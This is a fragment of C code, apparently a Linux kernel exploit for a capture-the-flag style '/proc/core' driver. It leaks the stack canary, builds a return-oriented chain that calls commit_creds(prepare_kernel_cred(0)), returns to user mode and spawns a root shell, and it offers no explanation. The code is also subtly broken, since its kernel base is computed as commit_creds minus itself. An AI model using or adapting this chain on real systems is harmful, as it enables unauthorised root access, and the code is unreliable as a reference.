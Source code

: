 ```
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }
}

void shell(){
        if(getuid()){
                printf("\033[31m\033[1m[x] Error: Failed to get root, exiting......\n\033[0m");
                exit(1);
        }
        printf("\033[32m\033[1m[+] Getting the root......\033[0m\n");
        system("/bin/sh");
        exit(0);
}

int main(){
  saveStatus();
  int fd = open("/proc/core",2);              //get the process fd
  if(!fd){
                printf("\033[31m\033[1m[x] Error: Cannot open process \"core\"\n\033[0m");
                exit(1);
        }
  char buffer[0x100] = {0};
        get_function_address();                // get addresses of two key function
  ssize_t vmlinux = commit_creds - commit_creds;            //base address
  printf("vmlinux_base = %x",vmlinux);
  //get canary 
  size_t canary;
  change_off(fd,0x40);
  //getchar();

  core_read(fd,buffer);
  canary = ((size_t *)buffer)[0];
  printf("canary ==> %p\n",canary);
  //build the ROP
  size_t rop_chain[0x1000] ,i= 0;
  printf("construct the chain\n");
  for(i=0; i< 10 ;i++){
    rop_chain[i] = canary;
  }
  rop_chain[i++] = POP_RDI_RET + vmlinux ; 
  rop_chain[i++] = 0;
  rop_chain[i++] = prepare_kernel_cred ;          //prepare_kernel_cred(0)
  rop_chain[i++] = POP_RDX_RET + vmlinux;
  rop_chain[i++] = POP_RCX_RET + vmlinux;
  rop_chain[i++] = MOV_RDI_RAX_CALL_RDX + vmlinux;
  rop_chain[i++] = commit_creds ;
  rop_chain[i++] = SWAPGS_POPFQ_RET + vmlinux;
  rop_chain[i++] = 0;
  rop_chain[i++] = IRETQ + vmlinux;
  rop_chain[i++] = (size_t)shell;
  rop_chain[i++] = user_cs;
  rop_chain[i++] = user_rflags;
  rop_chain[i++] = user_sp;
  rop_chain[i++] = user_ss;
  write(fd,rop_chain,0x800);
  core_copy_func(fd,0xffffffffffff0100); 
}


```
